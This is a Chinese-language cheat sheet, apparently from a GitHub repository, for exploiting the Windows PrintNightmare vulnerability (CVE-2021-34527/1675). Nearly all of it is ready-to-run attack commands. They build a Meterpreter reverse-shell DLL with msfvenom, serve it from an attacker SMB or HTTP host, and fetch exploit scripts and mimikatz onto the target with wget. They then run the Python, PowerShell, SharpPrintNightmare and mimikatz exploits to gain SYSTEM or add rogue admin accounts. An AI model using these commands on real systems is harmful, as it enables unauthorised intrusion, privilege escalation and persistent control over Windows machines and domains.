 #### 检查
  	Impacket - rpcdump
	>python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
	ItWasAllADream
	>git clone https://github.com/byt3bl33d3r/ItWasAllADream
	>cd ItWasAllADream && poetry install && poetry shell
	>itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
	>docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
#### 执行
##### PrintNightmare-CVE-2021-34527
	攻击机执行
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f dll -o evil.dll
	检测是否存在领漏洞
	>use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
	>set RHOSTS 192.168.1.190
	>set SMBUser ignite
	>set SMBPass 123
	>set DLL_PATH /
	>exploit
	监听
	>use multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set LHOST 192.168.1.2
	>set LPORT 4444
	>exploit
	https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527
	托管dll
	>python3 /usr/share/doc/python3-impacket/examples/smbserver.py share /root
	执行
	./CVE-2021-34527.py ignite:123@192.168.1.190 '\\192.168.1.2\share\evil.dll'
	即可获得system
	或使用powershell
	https://github.com/calebstewart/CVE-2021-1675.git
	>python3 -m http.server 80
	靶机执行>powershell wget http://192.168.1.2/CVE-2021-1675.ps1 -O \Users\Public\cve.ps1
	>powershell -ep bypass
	>Import-Module .\cve.ps1
	>Invoke-Nightmare -NewUser "harsh" -NewPassword "123" -DriverName "PrintMe"
	或使用mimikatz
	MSF监听后
	>python3 -m http.server 80
	>powershell wget http://192.168.1.2/mimikatz.exe -O \users\Public\mimikatz.exe
	>misc::printnightmare /library:\\192.168.1.2\share\evil.dll /authuser:ignite /authpassword:123 /try:50
##### SharpNightmare
  	https://github.com/cube0x0/CVE-2021-1675
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
	本地执行溢出
	>SharpPrintNightmare.exe C:\addCube.dll
	远程命令执行
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
##### Invoke-Nightmare
	本地执行溢出
  	https://github.com/calebstewart/CVE-2021-1675
	>Import-Module .\cve-2021-1675.ps1
	>Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
	>Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
	>Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
##### Mimikatz v2.2.0-20210709+
  	本地执行溢出
  	>misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
	远程命令执行
	>misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50